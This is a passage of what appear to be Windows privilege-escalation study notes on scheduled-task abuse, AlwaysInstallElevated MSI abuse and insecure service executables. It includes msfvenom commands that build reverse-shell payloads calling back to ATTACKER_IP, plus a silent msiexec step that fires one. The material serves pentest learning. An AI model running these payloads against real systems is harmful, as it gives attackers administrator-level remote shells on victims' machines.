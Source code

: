 
If permissions are set, user can trigger the task with the malicious file
```cmd
schtasks /run /tn TASKNAME
```


### AlwaysInstallElevated

Windows intaller Files (.msi files) are used to install applications on the system.  
They usually run with the privilege level of the user that starts it.  
However, these can be configured to run with higher privileges from any user account.  
This could potentially allow us to generate a malicious MSI file that would run with admin privileges.

This method requires two registry values to be set. You can query these from the command line using the commands below.

```cmd
reg query HKCU\SOFTWARE\Policies\Microsoft\Windows\Installer
reg query HKLM\SOFTWARE\Policies\Microsoft\Windows\Installer
```

A .msi file can be created using msfvenom

```bash
msfvenom -p windows/x64/shell_reverse_tcp LHOST=LOCAL_IP LPORT=LOCAL_PORT -f msi -o malicious.msi
```

You have to transfer the file  
Make sure that a Metasploit Handler is set and runs correctly

You can start the reverse shell : 
```cmd
C:\> msiexec /quiet /qn /i C:\Windows\Temp\malicious.msi
```


## Abusing Service Misconfiguration

Windows services are run by SCM (Service Control Manager)   
Each service is associated with an executable (it implements some specific stuff to be launched by the SCM (not all executable can be run as services))  
Each service specify the user account it is run as  
Services have a Discretionary Access Control List (DACL), which indicates who has permission to edit it

Service configurations are stored here : `HKLM\SYSTEM\CurrentControlSet\Services\`


#### Insecure Permissions on Service Executable

We can use `sc` to ask the SCM infos and `qc` specify a service to ask for  
The goal is to retrieve the executable path and the user it runs as for example
```cmd
sc qc SERVICE_NAME
```

Example : We found a service that runs a .exe with modification right, let's exploit it
```bash
msfvenom -p windows/x64/shell_reverse_tcp LHOST=ATTACKER_IP LPORT=4445 -f exe-service -o rev-svc.exe
python3 -m http.server 8000
```
